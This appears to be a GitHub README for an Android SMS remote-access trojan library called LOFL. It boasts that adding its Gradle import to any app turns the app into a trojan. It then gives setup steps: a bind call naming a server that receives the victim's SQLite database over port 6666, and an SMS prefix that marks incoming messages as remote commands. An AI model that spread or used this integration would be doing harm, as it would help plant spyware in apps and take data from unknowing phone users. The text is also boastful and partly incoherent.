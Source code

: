 # LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. I learned Android pentesting with library. I'm really embarrassed of the code. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

### Guess what all you social elitists, hackers, developers, engineers, crackers, terrorists, CandroidOgNinja fans, Candroid fans, Chris Basinger's fans, Evil Threads fans, family members, and federal agents. I've managed to hack the Android SMS module! By doing so, I've extended it's functionality to allow for SMS messages to only travel through the notification drawer without persistence. I was planning on adding media functionality as well. However , my life had to go on. There is a self-destructible SMS based notification messenger app. Like snapchat in your drawer. It's hidden in a git branch.

### Yeah baby. I allow you to copy and paste this import into any app in the world! And guess what! Then you just say "LOFL" and then guess what haha it becomes a trojan virus.

```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
